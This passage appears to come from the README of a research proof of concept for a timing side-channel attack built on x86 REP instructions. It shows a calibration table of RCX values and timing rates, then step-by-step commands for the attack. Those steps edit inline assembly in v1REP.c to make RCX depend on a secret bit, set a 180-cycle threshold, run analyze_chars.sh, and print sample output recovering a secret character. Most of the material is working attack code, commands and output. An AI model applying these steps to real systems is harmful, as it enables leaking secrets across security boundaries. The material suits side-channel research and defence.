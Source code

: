    ```bash
     8 |      20 |            16 |             4 |       20.0%
    16 |      20 |            18 |             2 |       10.0%
    32 |      20 |            16 |             4 |       20.0%
    64 |      20 |            17 |             3 |       15.0%
    72 |      20 |            14 |             6 |       30.0%
    80 |      20 |            18 |             2 |       10.0%
   128 |      20 |            16 |             4 |       20.0%
   200 |      20 |             1 |            19 |       95.0%
   256 |      20 |             1 |            19 |       95.0%
   300 |      20 |             4 |            16 |       80.0%
   400 |      20 |             3 |            17 |       85.0%
   500 |      20 |             1 |            19 |       95.0%
   512 |      20 |             0 |            20 |      100.0%
   600 |      20 |             1 |            19 |       95.0%
   640 |      20 |             1 |            19 |       95.0%
   700 |      20 |             0 |            20 |      100.0%
  
   >>> Best RCX value (highest >threshold % rate): 512
  
   ```
   From the above results, we can choose: `RCX` = 4 for secret bit 0,`RCX` = 512 for secret bit 1, time threshold = 180

### Step 2: Launch the Attack

1. Navigate to the main attack folder:
   ```bash
   cd ../REPms-RSAttack

2. Edit the `victimfunction` in v1REP.c based on your threshold findings  in the previous step. Example:
   ```bash
   mov     $0x200, %%rdx      ; //RCX value for secret bit 1 (e.g., 512)
   mov     $4, %%rcx          ; //RCX value for secret bit 0 (e.g., 4)
   mov     $0, %%r10d
   cmp     %%ebx, %%r10d
   cmovne  %%rdx, %%rcx       ; //Conditional RCX assignment based on secret
   ```
   ```bash
   results[bit]=(start > 180)?1:0; //Determine secret bit based on time threshold
   ```

3. Run the bitwise secret leakage attack:
   ```bash
    bash ./analyze_chars.sh U
   ```
- `U` specifies the target secret character to leak.
- Each round leaks 8 bits and the leakage is reported after multiple iterations (e.g., 20, 50).
- Example Output:
   ```bash
   === Character Statistics ===
   _: 3
   ]: 4
   W: 6
   U: 26
   E: 1
   }: 2
   u: 2
   �: 1
   �: 2
   �: 3
   The most frequent character (guessed secret character) is: U
   ```

